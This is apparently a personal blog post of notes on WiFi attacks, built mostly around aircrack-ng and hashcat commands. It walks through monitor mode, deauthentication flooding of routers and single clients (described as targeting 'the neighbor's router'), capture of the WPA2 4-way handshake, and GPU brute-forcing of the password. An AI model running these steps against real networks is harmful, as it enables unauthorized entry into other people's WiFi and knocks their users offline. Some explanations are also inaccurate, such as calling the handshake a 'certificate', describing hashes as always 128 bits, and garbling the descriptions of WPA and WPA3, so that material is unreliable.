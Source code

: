 ```yaml
---
layout : post
title : Sniffing packets and testing those
date : 2021-06-21
---
```


Wireless Network Adapter aka wifi card that is used to connect to wifi's 

WEP : oldest
WPA : Any certificate can lead to leak 
WPA2 : kick a user, then he reconnects, capture the certificate, 4-way handshake ,capture the certificate in betweeen   
WPA3 : all password attempts need to be on internet 



## Monitor mode
In this mode it becomes a radio sniffer, listens to all wireless signals in the air on a specific channel. Hear's everything happening in the room 

Wifi card can listen to 2.4Ghz, 5Ghz, 6Ghz bands 

It can sniff to any frequency band that its capable of in the above range

So what you do is you deauth the neighbor's router by sending 'deauthentication packets' ? ( how can I send deauth packets ? )
deauth is broken, part of 802.11 management frames, are not protected in WPA/WPA2 - Personal , can be spoofed / faked by anyone in the range 


Particular client deauth attack 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Probes
AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -45   1e-1     0       800     -
```

Station MAC is the client MAC 

Get all clients :
`airodump-ng --bssid <router MAC> -c <channel> wlo1mon`

Deauth bombing: 
`aireplay-ng --deauth 100 -a <router MAC> wlo1mon`

Deauth particular user : 
`aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlo1mon`

When the client connects back, we capture the 4-way handshake packets EAPOL Packets, and they are stored to the .cap files 

We dont need to decrypt this, rather we just need to match with the leaked password list and get the wifi password !! 

## Steps to get the AES encrypted certificate / password

* Change to Monitor Mode : `sudo airmon-ng start wlo1`
 
* Scan the wifi : `sudo airodump-ng --write scan --output-format csv`

* Find the relevant BSSID and the channel that you need to crack

* Check that particular bssid : `sudo airodump-ng wlo1mon -d <bssid>` 

To check how many beacons you have passed and see if any relevant signal has been catched or not !!
* sudo airodump-ng -w <hack2> -c <1> --bssid <A8:DA:0C:BD:0B:57> wlo1mon

Then parallely check for this :  
* Send deauth request at scale : `sudo aireplay-ng --deauth 0 -a <48:22:54:4C:CA:18> wlo1mon` OR `sudo aireplay-ng --deauth 20 -a 6c:4f:89:9a:3f:af wlo1mon --ignore-negative-one`

Stop the manager mode : 
* Manager mode : `sudo airmon-ng stop wlo1mon`

![hacked](https://github.com/user-attachments/assets/8ab726b5-c6b8-43e9-b184-a7207d1f3163)

So it all comes down to having a list of all possible passwords and then hash them and see which one is the matching the user and if the password is unique enough then we run out of luck ..  

## Using GPU to Crack the password 

Once the desired 4 way certificate is captured and you will see that your terminal output also use that to see the output in wireshark (optional) and then use it to generate .hash 

Dont use hashcat-utils (its not working for my case) it's actually making the file corrupt

Convert from `.cap` (captured certificates) to the .hash using `hcxpcaptool` from AUR and use it using 

`hcxpcapngtool -o correct_wpa2.hash hack3-01.cap`    

Then use this .hash file with hashcat to get the output 

Here the 22000 is for wpa2 , the last one is the mask and a : ascii , d: number-digits  
`hashcat -m 22000 -a 3 correct_wpa2.hash '?a?a?a?a?a?a?a?a?a'`


# Hashing 
So hashing is a one way process where no matter what amount of data you have it gets converted to a fixed size length(128 bits) and then that is matched with the other side and if both hashes matches then its a success !!


So its a nice way to check if everything was downloaded correctly from internet also rather than transferring more bits through the internet we can just share the hash and retrieve value so lower down the bandwidth ! 


